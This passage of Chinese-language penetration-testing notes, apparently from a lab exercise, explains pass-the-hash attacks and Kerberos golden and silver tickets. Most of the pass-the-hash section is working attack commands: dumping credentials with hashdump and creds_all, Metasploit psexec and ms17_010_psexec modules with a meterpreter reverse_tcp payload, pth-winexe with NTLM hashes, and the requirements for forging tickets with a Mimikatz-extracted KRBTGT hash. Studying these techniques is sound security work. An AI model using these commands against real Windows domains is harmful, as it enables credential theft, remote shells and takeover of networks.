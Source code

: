 哈希传递（Pass The Hash）即PTH，也是内网渗透中较常见的一个术语，就是通过传递Windwos 本地账户或者域用户的hash值，达到控制其他服务器的目的，该⽅法通过找到与账户相关的密码 Hash（通常是 NTLM Hash）来进⾏攻击。在域环境中，⽤户登录计算机时使⽤的⼤概都是域账号，⼤量计算机在安装时会使⽤相同的本地管理员账户密码，因此如果计算机的本地管理员账户和密码相同的话，攻击者就能使⽤哈希传递攻击的⽅法登录内⽹中的其他计算机。
适用于无法获取到明文，且哈希值无法解密

```
creds_all

use exploit/windows/smb/ms17_010_psexec
set payload windows/x64/meterpreter/reverse_tcp
set rhosts 172.16.0.102
set smbuser usercn
set smbdomain fsec.cn
set smbpass 345fa001d263fb97695109ab020e401c:78756282d1fcb13c8f94a368ab24235c
exploit

方式一：
hashdump
pth-winexe -U fsec.cn/administrator%aad3b435b51404eeaad3b435b51404ee:78756282d1fcb13c8f94a368ab24235c //172.16.0.101 cmd

方式二：
use exploit/windows/smb/psexec
set smbuser administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:78756282d1fcb13c8f94a368ab24235c
set smbdomain fsec.cn
set rhosts 172.16.0.101
exploit

```

坑：跨域使用hash传递，无法成功。怀疑问题出自2008与2022的smb版本不匹配。



### 5.3 黄金票据与白银票据

黄金票据：
https://www.cnblogs.com/backlion/p/8127868.html
白银票据：
https://blog.csdn.net/weixin_30532987/article/details/96203552

简单来说，黄金票据具有所有服务的权限，而白银票据只有单一服务的权限。

Kerberos黄金票据是有效的TGT Kerberos票据，因为它是由域Kerberos帐户（KRBTGT）加密和签名的  。TGT仅用于向域控制器上的KDC服务证明用户已被其他域控制器认证。TGT被KRBTGT密码散列加密并且可以被域中的任何KDC服务解密的。
黄金票据的条件要求：

```
1.域名称            
2.域的SID值      
3.域的KRBTGT账户NTLM密码哈希
4.伪造用户名
一旦攻击者拥有管理员访问域控制器的权限，就可以使用Mimikatz来提取KRBTGT帐户密码哈希值。
```
